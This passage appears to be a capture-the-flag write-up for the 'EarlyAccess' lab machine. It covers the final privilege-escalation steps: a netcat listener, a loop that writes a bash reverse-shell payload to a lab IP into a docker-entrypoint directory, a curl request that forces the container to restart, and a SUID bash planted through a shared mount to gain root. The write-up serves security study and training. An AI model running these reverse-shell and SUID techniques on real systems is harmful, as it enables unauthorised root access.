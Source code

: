 This is the condition that can be used to cause the container to become unresponsive, causing it to be restarted. This restart will trigger the malicious script in `/opt/docker-entrypoint.d/` to execute as `root` on `game-server`.

Start a reverse shell listener.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
```

Some mechanism continually deletes everything except for `node-server.sh` from `/opt/docker-entrypoint.d/`. Continually create a `bash` script with the malicious payload in the same directory.

```bash
drew@earlyaccess:/opt/docker-entrypoint.d$ while true; do echo 'bash -i >& /dev/tcp/10.10.14.109/9000 0>&1' > blah.sh; chmod +x blah.sh; done
```

Initiate the `game-server` infinite loop:

```bash
game-tester@game-server:~$ curl -X POST http://localhost:9999/autoplay -d "rounds=-1"
```

Wait a bit and once `game-server` is restarted, receive the reverse shell as `root` on `game-server`.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.109] from (UNKNOWN) [10.129.159.56] 48878
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@game-server:/usr/src/app# id
id
uid=0(root) gid=0(root) groups=0(root)
```

---

## `earlyaccess`

> Privilege Escalation to `root`

`/opt/docker-entrypoint.d/` on `earlyaccess` is mounted to `/docker-entrypoint.d` on `game-server`. As `drew` on `earlyaccess`, copy `/bin/bash` to `/opt/docker-entrypoint.d/`. Then, as `root` on `game-server`, change `/docker-entrypoint.d/bash`'s owner to `root` and set its SUID bit.

```bash
drew@earlyaccess:/opt/docker-entrypoint.d$ cp /bin/bash .
```

```bash
root@game-server:/docker-entrypoint.d# chown root bash
root@game-server:/docker-entrypoint.d# chmod +s bash
```

On `earlyaccess`, note that `/opt/docker-entrypoint.d/bash` is owned by `root` and has its SUID bit set. Execute this to elevate privileges. Read the `root` flag at `/root/root.txt`.

